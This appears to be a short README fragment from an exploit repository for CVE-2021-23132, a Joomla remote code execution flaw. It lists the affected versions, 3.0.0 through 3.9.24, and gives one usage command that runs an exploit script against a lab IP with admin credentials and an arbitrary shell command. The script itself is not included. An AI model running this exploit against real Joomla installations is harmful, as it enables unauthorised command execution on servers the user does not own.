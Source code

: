 ## 影响范围

```http
3.0.0 <= Joomla! <= 3.9.24
```

## EXP

```bash
python CVE-2021-23132.py -url http://192.168.72.140 -u admin -p 1234  -rce 1 -cmd ls
```

